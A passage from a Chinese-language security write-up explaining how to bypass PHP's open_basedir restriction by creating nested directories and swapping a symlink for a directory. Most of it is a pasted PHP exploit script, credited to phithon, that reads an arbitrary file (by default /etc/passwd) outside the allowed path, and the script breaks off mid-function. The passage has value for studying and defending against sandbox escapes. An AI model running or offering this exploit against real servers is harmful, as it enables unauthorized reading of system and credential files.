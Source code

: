 这里的原理就是通过软连接作为一个桥梁来进行绕过 具体的思路如下：

- 创建了A/B/C/D这个目录

- 创建SD软链接到目录A/B/C/D

- 然后让POC指向SD上面的目录这个时候因为返回后../../../../刚好回到open_basedir限制的html目录下面所以这里没毛病

- 然后删除了SD软链接又创建了一个文件夹这个时候POC指向的就是: **var/www/html/SD/../../../../etc/passwd**从而进行绕过（这个思路确实好玩） exp哈哈哈哈哈哈哈哈哈也是贴贴

  ```php
  <?php
  /* * by phithon * From https://www.leavesongs.com * detail: http://cxsecurity.com/issue/WLB-2009110068 */
  header('content-type: text/plain');
  error_reporting(-1);
  ini_set('display_errors', TRUE);
  printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
  printf("disable_functions: %s\n", ini_get('disable_functions'));
  $file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
  $relat_file = getRelativePath(__FILE__, $file);
  $paths = explode('/', $file);
  $name = mt_rand() % 999;
  $exp = getRandStr();
  mkdir($name);
  chdir($name);
  for($i = 1 ; $i < count($paths) - 1 ; $i++){
      mkdir($paths[$i]);
      chdir($paths[$i]);
  }
  mkdir($paths[$i]);
  for ($i -= 1; $i > 0; $i--) { 
      chdir('..');
  }
  $paths = explode('/', $relat_file);
  $j = 0;
  for ($i = 0; $paths[$i] == '..'; $i++) { 
      mkdir($name);
      chdir($name);
      $j++;
  }
  for ($i = 0; $i <= $j; $i++) { 
      chdir('..');
  }
  $tmp = array_fill(0, $j + 1, $name);
  symlink(implode('/', $tmp), 'tmplink');
  $tmp = array_fill(0, $j, '..');
  symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
  unlink('tmplink');
  mkdir('tmplink');
  delfile($name);
  $exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
  $exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
  echo "\n-----------------content---------------\n\n";
  echo file_get_contents($exp);
  delfile('tmplink');
  
  function getRelativePath($from, $to) {
    // some compatibility fixes for Windows paths
    $from = rtrim($from, '\/') . '/';
    $from = str_replace('\\', '/', $from);
    $to   = str_replace('\\', '/', $to);
  
    $from   = explode('/', $from);
    $to     = explode('/', $to);
  ```